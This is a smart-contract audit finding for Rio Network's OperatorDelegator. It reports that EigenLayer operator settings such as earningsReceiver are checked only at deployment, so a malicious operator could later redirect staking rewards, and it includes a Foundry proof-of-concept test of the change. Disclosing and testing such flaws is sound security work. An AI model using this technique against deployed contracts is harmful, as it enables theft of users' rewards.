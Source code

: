 Straight Neon Blackbird

medium

# An operator can change the earningsReceiver after deploying an OperatorDelegator and steal the rewards

## Summary

It checks the EigenLayer configuration of the operator only when deploying OperatorDelegator, but it can be changed by operator later. In particular, if the `earningsReceiver` setting is changed, the operator can steal the rewards.

## Vulnerability Detail

When deploying OperatorDelegator, it checks whether the value set by the operator on the EigenLayer is correct. It verifies if the `earningsReceiver`, `delegationApprover`, `stakerOptOutWindowBlocks` configuration values are correct. In particular, `earningsReceiver` should be set to RewardDistributor contract so that rewards are distributed through the Rio system.

```solidity
function initialize(address token_, address operator) external initializer {
    __RioLRTCore_init_noVerify(token_);

    if (msg.sender != address(operatorRegistry())) revert ONLY_OPERATOR_REGISTRY();

@>  IDelegationManager.OperatorDetails memory operatorDetails = delegationManager.operatorDetails(operator);
@>  if (operatorDetails.earningsReceiver != address(rewardDistributor())) revert INVALID_EARNINGS_RECEIVER();
@>  if (operatorDetails.delegationApprover != address(0)) revert INVALID_DELEGATION_APPROVER();
@>  if (operatorDetails.stakerOptOutWindowBlocks < operatorRegistry().minStakerOptOutBlocks()) {
        revert INVALID_STAKER_OPT_OUT_BLOCKS();
    }

    delegationManager.delegateTo(
        operator,
        ISignatureUtils.SignatureWithExpiry(new bytes(0), 0),
        bytes32(0)
    );

    // Deploy an EigenPod and set the withdrawal credentials to its address.
    address eigenPodAddress = eigenPodManager.createPod();

    eigenPod = IEigenPod(eigenPodAddress);
    withdrawalCredentials = _computeWithdrawalCredentials(eigenPodAddress);
}
```

This setting is only checked at deployment and is not checked afterwards. Therefore, after deploying OperatorDelegator, if the operator changes the settings by making a contract call to EigenLayer, they can steal the rewards.

This is PoC. Add it to the RioLRTOperatorRegistry.t.sol file and run it.

```solidity
function test_PoCChangeEigenLayerConfig() public {
    uint40 validatorCap = 100;
    address operator = address(1);

    vm.prank(operator);
    delegationManager.registerAsOperator(
        IDelegationManager.OperatorDetails({
            earningsReceiver: address(reETH.rewardDistributor),
            delegationApprover: address(0),
            stakerOptOutWindowBlocks: 0
        }),
        metadataURI
    );

    (uint8 operatorId, address delegator) = reETH.operatorRegistry.addOperator(
        IRioLRTOperatorRegistry.OperatorConfig({
            operator: operator,
            initialManager: address(this),
            initialEarningsReceiver: address(this),
            initialMetadataURI: metadataURI,
            strategyShareCaps: defaultStrategyShareCaps,
            validatorCap: validatorCap
        })
    );
    assertEq(operatorId, 1);
    assertNotEq(delegator, address(0));

    IRioLRTOperatorRegistry.OperatorPublicDetails memory operatorDetails =
        reETH.operatorRegistry.getOperatorDetails(operatorId);

    assertEq(operatorDetails.active, true);
    assertEq(operatorDetails.delegator, delegator);
    assertEq(operatorDetails.manager, address(this));
    assertEq(operatorDetails.pendingManager, address(0));
    assertEq(operatorDetails.earningsReceiver, address(this));
    assertEq(operatorDetails.validatorDetails.cap, validatorCap);

    assertEq(reETH.operatorRegistry.operatorCount(), 1);
    assertEq(reETH.operatorRegistry.activeOperatorCount(), 1);

    assertEq(delegationManager.earningsReceiver(operator), address(this));

    // change setting
    vm.prank(operator);
    delegationManager.modifyOperatorDetails(IDelegationManager.OperatorDetails({
        earningsReceiver: operator, // change earning receiver
        delegationApprover: address(0),
        stakerOptOutWindowBlocks: 0
    }));

    assertEq(delegationManager.earningsReceiver(operator), operator); // earningsReceiver changed
}
```

## Impact

If the operator changes the earningsReceiver settings, they can steal the rewards.

## Code Snippet

[https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/4f01e065c1ed346875cf5b05d2b43e0bcdb4c849/rio-sherlock-audit/contracts/restaking/RioLRTOperatorDelegator.sol#L81-L83](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/4f01e065c1ed346875cf5b05d2b43e0bcdb4c849/rio-sherlock-audit/contracts/restaking/RioLRTOperatorDelegator.sol#L81-L83)

## Tool used

Manual Review

## Recommendation

Penalize operators for changing settings.